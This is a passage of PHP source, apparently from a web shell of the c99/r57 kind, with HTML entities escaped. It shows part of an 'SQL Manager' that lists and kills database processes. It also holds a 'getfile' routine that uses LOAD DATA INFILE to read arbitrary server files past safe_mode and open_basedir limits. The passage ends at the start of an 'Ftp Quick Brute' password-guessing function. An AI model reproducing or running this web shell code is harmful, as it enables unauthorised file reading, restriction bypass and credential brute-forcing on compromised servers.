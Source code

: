      echo "&lt;TABLE cellSpacing=0 cellPadding=2 borderColorLight=#333333 border=1&gt;&lt;td&gt;&lt;b&gt;ID&lt;/b&gt;&lt;/td&gt;&lt;td&gt;&lt;b&gt;USER&lt;/b&gt;&lt;/td&gt;&lt;td&gt;&lt;b&gt;HOST&lt;/b&gt;&lt;/td&gt;&lt;td&gt;&lt;b&gt;DB&lt;/b&gt;&lt;/td&gt;&lt;td&gt;&lt;b&gt;COMMAND&lt;/b&gt;&lt;/td&gt;&lt;td&gt;&lt;b&gt;TIME&lt;/b&gt;&lt;/td&gt;&lt;td&gt;&lt;b&gt;STATE&lt;/b&gt;&lt;/td&gt;&lt;td&gt;&lt;b&gt;INFO&lt;/b&gt;&lt;/td&gt;&lt;td&gt;&lt;b&gt;Action&lt;/b&gt;&lt;/td&gt;&lt;/tr&gt;";
     while ($row = mysql_fetch_array($result, MYSQL_NUM)) { echo "&lt;tr&gt;&lt;td&gt;".$row[0]."&lt;/td&gt;&lt;td&gt;".$row[1]."&lt;/td&gt;&lt;td&gt;".$row[2]."&lt;/td&gt;&lt;td&gt;".$row[3]."&lt;/td&gt;&lt;td&gt;".$row[4]."&lt;/td&gt;&lt;td&gt;".$row[5]."&lt;/td&gt;&lt;td&gt;".$row[6]."&lt;/td&gt;&lt;td&gt;".$row[7]."&lt;/td&gt;&lt;td&gt;&lt;a href=\"".$sql_surl."sql_act=processes&kill=".$row[0]."\"&gt;&lt;u&gt;Kill&lt;/u&gt;&lt;/a&gt;&lt;/td&gt;&lt;/tr&gt;";}
     echo "&lt;/table&gt;";
     mysql_free_result($result);
    }
    if ($sql_act == "getfile")
    {
     $tmpdb = $sql_login."_tmpdb";
     $select = mysql_select_db($tmpdb);
     if (!$select) {mysql_create_db($tmpdb); $select = mysql_select_db($tmpdb); $created = !!$select;}
     if ($select)
     {
      $created = FALSE;
      mysql_query("CREATE TABLE `tmp_file` ( `Viewing the file in safe_mode+open_basedir` LONGBLOB NOT NULL );");
      mysql_query("LOAD DATA INFILE \"".addslashes($sql_getfile)."\" INTO TABLE tmp_file");
      $result = mysql_query("SELECT * FROM tmp_file;");
      if (!$result) {echo "&lt;b&gt;Error in reading file (permision denied)!&lt;/b&gt;";}
      else
      {
       for ($i=0;$i&lt;mysql_num_fields($result);$i++) {$name = mysql_field_name($result,$i);}
       $f = "";
       while ($row = mysql_fetch_array($result, MYSQL_ASSOC)) {$f .= join ("\r\n",$row);}
       if (empty($f)) {echo "&lt;b&gt;File \"".$sql_getfile."\" does not exists or empty!&lt;/b&gt;&lt;br&gt;";}
       else {echo "&lt;b&gt;File \"".$sql_getfile."\":&lt;/b&gt;&lt;br&gt;".nl2br(htmlspecialchars($f))."&lt;br&gt;";}
       mysql_free_result($result);
       mysql_query("DROP TABLE tmp_file;");
      }
     }
     mysql_drop_db($tmpdb);
    }
   }
  }
}
echo "&lt;/td&gt;&lt;/tr&gt;&lt;/table&gt;\n";
if ($sql_sock) {
  $affected = @mysql_affected_rows($sql_sock);
  if ((!is_numeric($affected)) or ($affected &lt; 0)){$affected = 0;}
  echo "&lt;tr&gt;&lt;td&gt;&lt;center&gt;&lt;b&gt;Affected rows : ".$affected."&lt;/center&gt;&lt;/td&gt;&lt;/tr&gt;";
}
echo "&lt;/table&gt;\n";
}
//End of SQL Manager
if ($act == "ftpquickbrute") {
echo "&lt;center&gt;&lt;table&gt;&lt;tr&gt;&lt;td class=barheader colspan=2&gt;";
echo ".: Ftp Quick Brute :.&lt;/td&gt;&lt;/tr&gt;";
echo "&lt;tr&gt;&lt;td&gt;";
if ($win) { echo "Can't run on Windows!"; }
else {
  function exftpbrutecheck($host,$port,$timeout,$login,$pass,$sh,$fqb_onlywithsh) {
    if ($fqb_onlywithsh) {$TRUE = (!in_array($sh,array("/bin/FALSE","/sbin/nologin")));}
    else {$TRUE = TRUE;}
    if ($TRUE) {
